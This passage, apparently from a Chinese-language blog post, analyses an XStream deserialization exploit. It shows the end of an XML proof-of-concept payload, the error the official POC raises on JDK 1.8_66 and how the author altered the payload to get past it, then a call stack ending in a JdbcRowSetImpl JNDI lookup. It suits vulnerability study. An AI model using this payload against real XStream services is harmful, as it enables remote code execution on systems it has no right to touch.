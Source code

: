 ```plain
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

官方的POC和这个不太一致，使用后会报如下错误

```plain
---- Debugging information ----
message             : No such field com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault._overrideDefaultParser
field               : _overrideDefaultParser
class               : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
required-type       : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
converter-type      : com.thoughtworks.xstream.converters.reflection.ReflectionConverter
path                : /sorted-set/javax.naming.ldap.Rdn$RdnEntry/value/m_DTMXRTreeFrag/m_dtm/m_mgrDefault/_overrideDefaultParser
```

这里表示com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault类中没有\_overrideDefaultParser这个字段，于是查阅了JDK1.8\_66外部包的这个类，确实没有找到该字段，于是就删除了官方POC中下面这句就得到了以上的POC

```plain
<__overrideDefaultParser>false</__overrideDefaultParser>
```

这里猜测应该是跟JDK版本有关,经查阅资料，这个属性在JDK低版本中是没有的，相关的博客也提到，可以更换成下面这句

```plain
<__useServicesMechanism>false</__useServicesMechanism>
```

**分析**  
函数调用栈

```plain
getObjectFactoryFromReference:142, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4067, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
parseSome:373, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
deliverMoreNodes:312, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
nextNode:814, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
_firstch:535, DTMDefaultBase (com.sun.org.apache.xml.internal.dtm.ref)
getStringValue:1294, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
str:207, XRTreeFrag (com.sun.org.apache.xpath.internal.objects)
toString:314, XObject (com.sun.org.apache.xpath.internal.objects)
```